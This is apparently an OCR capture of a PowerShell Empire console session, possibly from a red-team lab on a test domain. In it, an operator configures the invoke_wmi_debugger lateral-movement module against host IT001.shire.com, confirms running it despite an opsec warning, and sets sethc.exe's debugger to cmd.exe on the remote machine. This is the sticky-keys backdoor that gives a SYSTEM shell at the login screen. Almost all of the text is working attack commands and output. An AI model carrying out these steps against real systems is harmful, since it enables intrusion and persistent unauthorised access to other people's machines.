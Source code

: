 ```
                           Network\debug             code. Last element is the key name.     
  Password     False                                 Password to use to execute command.     
  Agent        True        V6W3TH8Y                  Agent to run module on.                 

(Empire: powershell/lateral_movement/invoke_wmi_debugger) > set Listener https
(Empire: powershell/lateral_movement/invoke_wmi_debugger) > set ComputerName IT001.shire.com
(Empire: powershell/lateral_movement/invoke_wmi_debugger) > set Listener ''
(Empire: powershell/lateral_movement/invoke_wmi_debugger) > info

              Name: Invoke-WMIDebugger
            Module: powershell/lateral_movement/invoke_wmi_debugger
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @harmj0y

Description:
  Uses WMI to set the debugger for a target binary on a remote
  machine to be cmd.exe or a stager.

Options:

  Name         Required    Value                     Description
  ----         --------    -------                   -----------
  Listener     False                                 Listener to use.                        
  CredID       False                                 CredID from the store to use.           
  ComputerName True        IT001.shire.com           Host[s] to execute the stager on, comma 
                                                     separated.                              
  Cleanup      False                                 Switch. Disable the debugger for the    
                                                     specified TargetBinary.                 
  TargetBinary True        sethc.exe                 Target binary to set the debugger for   
                                                     (sethc.exe, Utilman.exe, osk.exe,       
                                                     Narrator.exe, or Magnify.exe)           
  UserName     False                                 [domain\]username to use to execute     
                                                     command.                                
  Binary       False       C:\Windows\System32\cmd.  Binary to set for the debugger.         
                           exe                     
  RegPath      False       HKLM:Software\Microsoft\  Registry location to store the script   
                           Network\debug             code. Last element is the key name.     
  Password     False                                 Password to use to execute command.     
  Agent        True        V6W3TH8Y                  Agent to run module on.                 

(Empire: powershell/lateral_movement/invoke_wmi_debugger) > execute                                          
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked V6W3TH8Y to run TASK_CMD_WAIT
[*] Agent V6W3TH8Y tasked with task ID 7
[*] Tasked agent V6W3TH8Y to run module powershell/lateral_movement/invoke_wmi_debugger
(Empire: powershell/lateral_movement/invoke_wmi_debugger) > Invoke-Wmi executed on "IT001.shire.com" to set the debugger for sethc.exe to be C:\Windows\System32\cmd.exe.

(Empire: powershell/lateral_movement/invoke_wmi_debugger) >
```